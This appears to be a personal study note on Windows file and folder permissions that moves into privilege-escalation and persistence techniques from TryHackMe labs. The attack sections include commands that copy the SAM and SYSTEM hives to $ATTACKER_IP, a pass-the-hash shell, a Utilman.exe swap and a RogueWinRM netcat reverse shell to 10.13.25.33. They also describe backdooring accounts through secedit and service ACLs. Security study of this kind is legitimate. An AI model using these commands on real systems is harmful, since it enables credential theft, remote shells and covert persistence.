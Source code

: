 # Windows Permissions
Windows access is default-deny.

Windows folder permissions:

* Read — Permits viewing and listing of files and subfolders
* Write — Permits adding of files and subfolders
* Read & Execute — Permits viewing and listing of files and subfolders as well as executing of files; inherited by files and folders
* List Folder Contents — Permits viewing and listing of files and subfolders as well as executing of files; inherited by folders only
* Modify — Permits reading and writing of files and subfolders as well as executing of files; allows deletion of the folder
* Full Control — Permits reading, writing, changing, and deleting of files and subfolders

Windows file permissions:

* Read — Permits viewing or accessing of the file’s contents
* Write — Permits writing to a file
* Read & Execute — Permits viewing and accessing of the file’s contents as well as executing of the file
* List Folder Contents — N/A
* Modify — Permits reading and writing of the file as well as executing of the file; allows deletion of the file
* Full Control — Permits reading, writing, changing and deleting of the file

The biggest differences between Windows and UNIX permissions:

* Windows doesn’t have as fine-grained of control *for a given user or group*.
* Windows has *much more* fine-grained control across users and groups (there’s no limit of three permission sets).
* The ability to delete a folder or file, and to change its permissions, are essentially considered to be distinct “sub-permissions”.

As much as it pains me to say it, in many ways the Windows permission mode is much better than the (pre-ACL) Linux model.

### Additional Resources
* [File and Folder Permissions](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/bb727008)

## Checking Permissions
Use `icacls` or `Get-Acl $PATH | Format-List` in PowerShell to check permissions at the command line. The `icacls` tool can also be used to update Windows ACLs.

Both of these tools produce output that is somewhat different than that of the “Security” tab in the file or folder properties:

* `(I)` — permission inherited from the parent container
* `(F)` — full access (full control)
* `(M)` — modify right/access
* `(OI)` — object inherit
* `(IO)` — inherit only
* `(CI)` — container inherit
* `(RX)` — read and execute
* `(AD)` — append data (add subdirectories)
* `(WD)` — write data and add files

Note that the Windows File Explorer only displays the *first* ACL for a particular user or group, but that Windows allows *multiple* ACLs to be applied! This means that the File Explorer does not always show you the *actual* permissions a user/group will have - you really do need to use `icacls` or `Get-Acl`.

In the case of multiple ACLs, or when a user is part of two groups with different groups, keep in mind that allow permissions only override *inherited* deny permissions. Explicitly set deny permissions *cannot* be overridden.

## Common User Types
* Local Admin
* Local User
* Guest User
* Domain User
* Domain Admin

Note that non-admin domain users may still be local admins.

### Important Local Service Accounts
* LocalSystem — The account used by the OS itself; essentially *more* powerful than an normal user account in the Administrators group.
* Local Service — The default account used by Windows services; it has minimal privileges and uses anonymous network connections.
* Network Service — Essentially the same as the Local Service user, but uses the OS (“computer”) credentials when authenticating over the network.

#### Additional Resources
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

## Exploitable Permissions
### SeBackup / SeRestore
These permission allow full read (SeBackup) and write (SeRestore) access to any file. The first of these allows for exfiltration, while the second allows binaries to be replaced at will (combine with service- or task-based attacks!). The “Backup Operators” group has *both* of these permissions!

Backup useful registry hives:

```powershell
reg save HKLM\SYSTEM $PATH_TO_HIVE_FILE
reg save HKLM\SAM $PATH_TO_HIVE_FILE
```

Run a local SMB server with Impacket:

```bash
impacket-smbserver -smb2support -username $CONNECTION_USER \
	-password $CONNECTION_PASSWORD $SHARE_NAME $PATH_TO_DIRECTORY
```

Then, just use copy on Windows:

```powershell
copy $FILE \\$ATTACKER_IP\$SHARE_NAME\
```

Use Impacket to dump hashes from a hive and perform a pass-the-hash attack:

```bash
# Get hashes from SAM/SYSTEM hives
#
impacket-secretsdump -sam $SAM_HIVE_FILE \
	-system $SYSTEM_HIVE_FILE LOCAL

# Get a shell by passing a hash
#
impacket-psexec -hashes $FULL_NTLM_HASH $TARGET_USER@$TARGET_IP
```

#### Additional Resources
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

### SeTakeOwnership
This permission allows a user to take ownership of any file or object (!!!).

```powershell
# Take ownership of a file
#
takeown /f $PATH_TO_FILE

# Give your user ($USERNAME) full access (F) to said file
#
icacls $PATH_TO_FILE /grant $USERNAME:F
```

The “standard” file to replace with `cmd.exe` with this trick is `C:\Windows\System32\Utilman.exe`, which provides accessibility services access from lock and login screens.

#### Additional Resources
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

### SeImpersonate / SeAssignPrimaryToken
These permissions allow for user impersonation. On windows, the Local Service and Network Service accounts already have these privileges; if IIS is installed, there will also often be a IIS AppPool/DefaultAppPool service account with these permissions as well.

*However*, it *isn’t* enough to just have access to a service running as a user with these permissions, as Windows will not allow an application to *arbitrarily* impersonate a user. Instead, we must have a service and then *trick/force a highly privileged account to connect to it*, at which point impersonation will be allowed.

One way to do this is using the RogueWinRM exploit. The idea here is that when a user logs in, the BITS service creates a connection on port 5985 to the (local) WinRM service (which is used to execute PowerShell commands) *as SYSTEM*. If the WinRM service isn’t running, RogueWinRM can be run instead to capture these connections (I’m guessing that the WinRM service can also be back-doored using RogueWinRM directly, but that doing so may interfere with system functionality?).

Example RogueWinRM command line:

```powershell
C:\RogueWinRM.exe -p C:\nc64.exe `
                  -a “-e cmd.exe 10.13.25.33 4442”
```

#### Additional Resources
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

## Bulk Editing Permissions
Privileges can also be manipulated/assigned to users in bulk using the `secedit` tool

1. Dump system privileges: `secedit /export /cfg config.inf`.
2. Edit `config.inf`, appending the user you want to have a given privilege to that privilege’s assignment line (comma-delineated list).
3. Re-import the system privileges: `secedit /import /cfg config.inf /db config.sdb & secedit /configure /db config.sdb /cfg config.inf`

### Additional Resources
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 

## Service ACLs
For connecting to services (such as WinRM), it’s often possible to manipulate the service ACL rather than the user’s privileges. For example, adding a user to the `Microsoft.PowerShell` security descriptor with the “Full Control” permission will enable access to the WinRM service, regardless of the permissions explicitly assigned to the user.

```powershell
# Note that the below PowerShell command will pull up a GUI ACL
# configuration dialog
#
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

The advantage to manipulating user privileges and service ACLs directly is that it’s less obvious that a user is back-doored.

### Additional Resources
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 
* [Exploiting Windows Remote Management (WinRM)](./Exploiting%20Windows%20Remote%20Management%20%28WinRM%29.md)
